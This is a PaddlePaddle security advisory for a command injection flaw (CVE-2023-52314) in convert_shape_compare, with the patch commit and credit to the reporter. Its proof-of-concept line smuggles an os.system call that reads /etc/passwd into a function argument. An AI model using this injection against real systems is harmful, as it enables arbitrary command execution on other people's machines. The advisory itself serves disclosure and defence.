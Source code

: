 ## PDSA-2023-023: Command injection in convert_shape_compare

### CVE Number

CVE-2023-52314

### Impact

Command injection in `convert_shape_compare` which could lead to execute arbitrary commands. The PoC is as follows:

```python
import paddle

paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("cat /etc/passwd")) +','1')
```

### Patches

We have patched the issue in commit [c3b6414eb313480f1417abe92d410dfe89723097](https://github.com/PaddlePaddle/Paddle/pull/60097/commits/c3b6414eb313480f1417abe92d410dfe89723097).
The fix will be included in PaddlePaddle 2.6.0.

### For more information

Please consult [our security guide](../../SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution

This vulnerability has been reported by leeya_bug.
